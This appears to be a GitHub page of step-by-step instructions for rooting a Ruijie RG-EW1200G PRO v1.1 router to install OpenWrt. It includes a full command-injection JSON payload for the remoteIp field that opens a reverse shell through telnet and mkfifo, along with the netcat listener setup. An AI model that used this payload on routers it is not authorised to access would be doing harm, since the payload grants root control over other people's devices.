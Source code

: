 Instructions to gain rootshell on Ruijie RG-EW1200G PRO v1.1 routers for openwrt installation

<h1>Source:</h1>  
   
https://gist.github.com/ZIKH26/18693c67ee7d2f8d2c60231b19194c37  
https://bbs.kanxue.com/thread-280448.htm  

**Disclaimer: Proceeding with these instructions using the firmware provided may cause your Ruijie RG-EW1200G PRO v1.1 router to brick.
Please read through carefully and exercise extreme caution.
By using any of the resources and instructions provided, all risks and responsibilities will be solely on the user.
It is recommended to save and backup your existing configuration and working firmware before proceeding any further.**

Specific firmware version (EW_3.0(1)B11P219_EW1200GI_10182113) is required for a command injection vulnerability using http post on /cgi-bin/luci/api/cmd via the remoteIp field.  
The working firmware for this is as attached.
[RG-EW1200G PRO Wireless Routers EW_3.0(1)B11P219 firmware.zip](https://github.com/user-attachments/files/18793087/RG-EW1200G.PRO.Wireless.Routers.EW_3.0.1.B11P219.firmware.zip)

<h1>Step by step instructions:</h1>  

1. Make sure the working firmware (EW_3.0(1)B11P219_EW1200GI_10182113) is installed on your Ruijie RG-EW1200G PRO v1.1 router before proceeding. Just login to the router's UI on a web browser and use the upgrade function.
2. Install Mozilla Firefox and HackBar extension https://addons.mozilla.org/en-US/firefox/addon/hackbar/
3. Download nc64.exe from https://github.com/int0x33/nc.exe/
4. Place nc64.exe at an easy to access drive or folder, for example drive D
5. Open windows powershell, navigate to drive D with command 'cd D:'  
   ![image](https://github.com/user-attachments/assets/3e6156c5-4661-4561-bb79-39dda7f195c9)
6. Start netcat lookup on port 6666 with command '.\nc64.exe -lvvp 6666'
7. Go to your Ruijie RG-EW1200G PRO v1.1 router UI page by typing in the router IP on Mozilla Firefox
8. Login and open up the developer console (F12) and select the network tab  
   ![image](https://github.com/user-attachments/assets/5501998d-ffee-418f-a2a6-a0f40761c369)
9. Look for the auth code and copy the full URL with path /cgi-bin/luci/api/cmd as shown above
10. On the developer console top tab, select HackBar (might have to expand the tab to see HackBar)
11. Paste the URL copied in step 9 in the URL form, enable Use POST method and select application/json for post type  
    ![image](https://github.com/user-attachments/assets/68cc58f5-d32e-4de6-9d81-2c3470d276c0)
12. Enter the below code into the Body content and click EXECUTE
```
{
    "method": "devConfig.get",
    "params": {
        "module": "123",
        "remoteIp": "$(mkfifo /tmp/test;telnet <your windows machine ip> 6666 0</tmp/test|/bin/sh > /tmp/test)",
        "data": {
            "kkk": "abc"
        }
    }
}
```
13. If everything is executed correctly, the tab should load and send out the http post  
    ![image](https://github.com/user-attachments/assets/7b66c4c8-09a7-4fb9-8abf-d8af139035c1)
14. On the powershell window, there should be a response from the netcat lookup  
    ![image](https://github.com/user-attachments/assets/1c96ac98-a5be-4d12-a167-648be028b629)
15. Type 'pwd' then enter, followed by 'ls' to list the exposed folders and lastly 'id' to check for root access
16. If the rootshell process is done correctly, the response should be similar to the above image

<h1>Extra Notes:</h1>  

1. Make sure port 6666 is open on all firewalls on your network
2. This should work on linux as well using 'nc -lvvp 6666' but it didn't work for my case on both Proxmox and Ubuntu and currently the reasons are unknown
3. If the upgrade feature to install the specific firmware doesn't work, try resetting the router and try again
